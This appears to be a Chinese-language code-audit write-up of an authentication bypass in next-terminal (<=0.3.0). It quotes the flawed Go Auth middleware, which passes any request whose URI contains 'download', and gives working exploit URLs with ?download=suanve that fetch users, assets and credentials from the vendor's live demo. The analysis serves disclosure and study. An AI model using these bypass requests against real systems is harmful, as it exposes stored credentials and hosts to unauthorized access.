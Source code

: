 ```json
{
  "date": "2021.03.10 11:49",
  "tags": ["golang","权限绕过","next-terminal","代码审计"],
  "description":"go代码审计-next-terminal权限绕过"
}
```

# next-terminal 代码审计

项目地址：

https://github.com/dushixiang/next-terminal

危害版本：
`<=0.3.0`


### 0x0 环境搭建

运行项目
`docker run -d   -p 8088:8088   --name next-terminal   --restart always dushixiang/next-terminal:latest`



### 0x1 权限绕过

代码分析：

pkg/api/routes.go:37行加载`Auth`认证

![image-20210305125205180](https://files.funcloud.net/uploads/ed759ef5a1d6c7cbb59c87f21ed404e0)



跟进`Auth`函数

pkg/api/middleware.go:28 

![](https://files.funcloud.net/uploads/1bb11e4eb80ac4a0060c5ec859d1dab7)

```go
func Auth(next echo.HandlerFunc) echo.HandlerFunc {

	urls := []string{"download", "recording", "login", "static", "favicon", "logo", "asciinema"}
	// 这里是为了给不需要认证的路由提供便利
	return func(c echo.Context) error {
		// 路由拦截 - 登录身份、资源权限判断等
		for i := range urls {
			if c.Request().RequestURI == "/" || strings.HasPrefix(c.Request().RequestURI, "/#") {
				return next(c)
			}
			if strings.Contains(c.Request().RequestURI, urls[i]) { //  路由中携带urls中的关键字
        
				return next(c) //?download=suanve 实现权限绕过
        
			}
		}

		token := GetToken(c)
		cacheKey := strings.Join([]string{Token, token}, ":")
		authorization, found := global.Cache.Get(cacheKey)
		if !found {
			return Fail(c, 401, "您的登录信息已失效，请重新登录后再试。")
		}
```



#### 0x3 官网demo实测：

##### 获取用户列表

https://next-terminal.typesafe.cn/users/paging?download=suanve

![image-20210305124955423](https://files.funcloud.net/uploads/487f129108c7b95560ec74995ea417e7)



##### 获取资产

https://next-terminal.typesafe.cn/assets/paging?pageIndex=1&pageSize=10&protocol=&download=suanve

![image-20210305130107255](https://files.funcloud.net/uploads/159207df1e6df8cd5b3c6d0fc57ecf55)



##### 获取凭据

https://next-terminal.typesafe.cn/credentials/paging?pageIndex=1&pageSize=10&download=suanve

![image-20210305130436581](https://files.funcloud.net/uploads/b4eddda35142e99069b3494eda4929f1)

